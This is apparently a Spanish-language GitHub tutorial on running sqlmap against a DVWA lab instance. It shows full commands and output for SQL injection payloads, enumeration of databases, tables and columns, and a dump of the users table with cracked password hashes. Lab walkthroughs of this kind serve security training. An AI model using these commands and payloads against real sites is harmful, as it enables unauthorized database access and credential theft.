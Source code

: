 # TOOLS SQL INJECTION
## SQL-MAP
Es una herramienta de prueba de penetración de código abierto que automatiza la detección y explotación de vulnerabilidades de inyección SQL en aplicaciones web. La herramienta es compatible con múltiples sistemas de gestión de bases de datos, incluidos MySQL, Oracle, PostgreSQL y Microsoft SQL Server, y utiliza técnicas avanzadas de prueba de inyección SQL para determinar si una aplicación web es vulnerable a ataques de inyección SQL y, de ser así, automatizar la explotación de la vulnerabilidad. SQLMap también puede utilizarse para recuperar información valiosa de bases de datos, como tablas, columnas, credenciales y datos confidenciales almacenados.
#### Ejecución

```java                                                         
┌──(s3cur1ty3c㉿kali)-[~/Escritorio]
└─$ sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low"___
       __H__                                                                                                                                                                                
 ___ ___[)]_____ ___ ___  {1.6.12#stable}                                                                                                                                                   
|_ -| . [,]     | .'| . |                                                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                              
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's
responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:37:45 /2023-02-15/
[14:37:45] [WARNING] provided value for parameter 'id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:37:45] [INFO] resuming back-end DBMS 'mysql' 
[14:37:45] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=' OR NOT 8746=8746#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=' AND (SELECT 3829 FROM(SELECT COUNT(*),CONCAT(0x716b787671,(SELECT (ELT(3829=3829,1))),0x716a6a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- FOjM&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=' AND (SELECT 9284 FROM (SELECT(SLEEP(5)))kwAX)-- qFqJ&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=' UNION ALL SELECT NULL,CONCAT(0x716b787671,0x636a636242684369556d51536741684458506b75686570496c6566764d44727a537a4d6a6d784b50,0x716a6a6b71)#&Submit=Submit
---
[14:37:45] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.2.14, PHP 5.3.1
back-end DBMS: MySQL >= 5.0
[14:37:45] [INFO] fetched data logged to text files under '/home/s3cur1ty3c/.local/share/sqlmap/output/192.168.200.152'
[*] ending @ 14:37:45 /2023-02-15/
```
La sentencia `sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low"` ejecuta el programa SQLMap para buscar y explotar vulnerabilidades de inyección SQL en la URL proporcionada.

Los parámetros de la sentencia son:

>* "-u": URL objetivo de la página web a analizar.
>* "--cookie": Cookies de sesión necesarias para acceder a la página.
>* "PHPSESSID": Identificador de sesión PHP en la cookie.
>* "security": Nivel de seguridad de la página web, en este caso, "low".

En resumen, esta sentencia ejecuta una prueba de inyección SQL en la página web `http://192.168.200.152/vulnerabilities/sqli/` utilizando las cookies de sesión indicadas.

### Enumeración DataBase
El parámetro `--dbs` es una de las opciones que se pueden proporcionar a SQLMap para indicar que se deben enumerar todas las bases de datos disponibles en el servidor subyacente. SQLMap luego intentará inyectar código SQL en el sitio web objetivo para extraer información sobre las bases de datos disponibles en el servidor.
``` java
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌──(s3cur1ty3c㉿kali)-[~/Escritorio]
└─$ sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" --dbs
[15:09:39] [INFO] fetching database names
available databases [6]:
[*] cdcol
[*] dvwa
[*] information_schema
[*] mysql
[*] phpmyadmin
[*] test
[15:09:39] [INFO] fetched data logged to text files under '/home/s3cur1ty3c/.local/share/sqlmap/output/192.168.200.152'
[*] ending @ 15:09:39 /2023-02-15/
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
#### Enumeración de Tablas
El parámetro `--tables` en la sentencia de SQLMap indica que SQLMap debe enumerar todas las tablas disponibles en la base de datos especificada con el parámetro -D.
``` java
 sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" --tables -D dvwa 
[15:17:33] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.2.14, PHP 5.3.1
back-end DBMS: MySQL >= 5.0
[15:17:33] [INFO] fetching tables for database: 'dvwa'
[15:17:33] [WARNING] reflective value(s) found and filtering out
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```
#### Enumeración de Columnas
El parámetro `--columns` en SQLMap se utiliza para enumerar las columnas (campos) de una tabla específica en una base de datos.
``` java
sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" -D dvwa -T users --columns
[15:21:41] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS: MySQL >= 5.0
[15:21:41] [INFO] fetching columns for table 'users' in database 'dvwa'
[15:21:41] [WARNING] reflective value(s) found and filtering out
Database: dvwa
Table: users
[6 columns]
+------------+-------------+
| Column     | Type        |
+------------+-------------+
| user       | varchar(15) |
| avatar     | varchar(70) |
| first_name | varchar(15) |
| last_name  | varchar(15) |
| password   | varchar(32) |
| user_id    | int(6)      |
+------------+-------------+
[15:21:41] [INFO] fetched data logged to text files under '/home/s3cur1ty3c/.local/share/sqlmap/output/192.168.200.152'
[*] ending @ 15:21:41 /2023-02-15/
```
#### Enumeración por consulta SQL-Query
En este caso, la opción `--sql-query` se utiliza para especificar una consulta SQL que selecciona los datos de las columnas específicas de la tabla "users". Los datos se muestran en la salida de la consola de SQLMap, en el formato predeterminado.
``` java
sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" -D dvwa --sql-query "SELECT user, first_name, last_name, password FROM users"
[15:49:22] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.2.14, PHP 5.3.1
back-end DBMS: MySQL >= 5.0
[15:49:22] [INFO] fetching SQL SELECT statement query output: 'SELECT user, first_name, last_name, password FROM users'
[15:49:22] [WARNING] reflective value(s) found and filtering out
SELECT user, first_name, last_name, password FROM users [5]:
[*] admin, admin, admin, 5f4dcc3b5aa765d61d8327deb882cf99
[*] gordonb, Gordon, Brown, e99a18c428cb38d5f260853678922e03
[*] 1337, Hack, Me, 8d3533d75ae2c3966d7e0d4fcc69216b
[*] pablo, Pablo, Picasso, 0d107d09f5bbe40cade3de5c71e9e9b7
[*] smithy, Bob, Smith, 5f4dcc3b5aa765d61d8327deb882cf99
[15:49:22] [INFO] fetched data logged to text files under '/home/s3cur1ty3c/.local/share/sqlmap/output/192.168.200.152'
[*] ending @ 15:49:22 /2023-02-15/
```
#### Volcado o descarga de credenciales.
El parámetro `--dump` es utilizado en la herramienta de seguridad SQLMap para extraer los datos de las columnas de una tabla de una base de datos que ha sido comprometida con éxito por medio de una inyección de SQL.
Cuando SQLMap encuentra una vulnerabilidad de inyección de SQL en un sitio web o una aplicación web, intenta utilizar esa vulnerabilidad para obtener acceso a la base de datos subyacente. Una vez que ha obtenido acceso, se puede utilizar el parámetro --dump para extraer los datos de las columnas de una tabla en particular.
``` java                                                                 
┌──(s3cur1ty3c㉿kali)-[~/Escritorio]
└─$ sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" -D dvwa -T users --columns -C "user, password" --dump                                                         
Database: dvwa
Table: users
[5 entries]
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+
```
